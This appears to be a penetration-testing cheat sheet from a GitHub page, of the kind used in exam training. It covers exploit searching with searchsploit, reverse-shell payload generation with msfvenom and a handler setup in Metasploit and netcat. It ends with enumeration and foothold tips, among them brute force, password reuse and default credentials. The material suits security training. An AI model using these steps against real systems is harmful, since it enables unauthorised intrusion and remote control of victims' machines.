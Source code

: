 # 1. Finding Exploits
---

## Search for exploits

```
searchsploit keyword1 keyword2 keyword3
```
## Copy exploit

```
searchsploit -m [exploit database id]
```

If searchsploit fails to find any juicy exploits, try Google. If Google fails, well, there’s probably not a public exploit. TRY HARDER!
It may be exploitable with:
- Public POC (github, blog etc.)
	- Need to understand the code and POC
	- Try to write your own
- Bruteforcing
- Clear text password in files (need detail enumeration)
---
# 2. Customize Payloads
To open a Meterpreter session or a reverse shell so that you can take control of the victim box.

## MsfVenom

```
msfvenom -p [payload] -f [format] LHOST=[yourip] LPORT=[your listener port]
```
- staged - `windows/shell/reverse_tcp`
- unstaged - `windows/shell_reverse_tcp`
Other options: 
- `-e` to chose encoder
- `-b` allows you to set bad characters
List all payloads for msfvenom
```
msfvenom --list payloads
```
---
# 3. Privilege Escalation
- [Linux]()
- [Window]()
---
# 4. Catching reverse shells
Metasploit multi/handler listener
```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```
Netcat listener (unstaged payload)
```
root@kali:~# rlwrap nc -nvlp 80
nc: listening on :: 80 ...
nc: listening on 0.0.0.0 80 ...
```
---
# 5. Enumerate more
- Scan ports, scan all the ports, scan using different scanning techniques.
- Brute force web dirs, brute force web dirs using different wordlist and tools
- Check for file permissions, check for registry entries, check for writeable folders, check for privileged processes and services, check for interesting files...
- Look for a more suitable exploit using searchsploit, search google for valuable information, etc.
- Webserver version, web app version, CMS version, Plugin version...

## Tip for foothold
- Password reuse
- The default password for the application/ CMS
- Guess the file location incase of LFI with username
- Username from any notes inside the machine might be useful for Bruteforce
- Try harder doesn't mean you have to try the same exploit with 200x thread count. Be **smarter**.
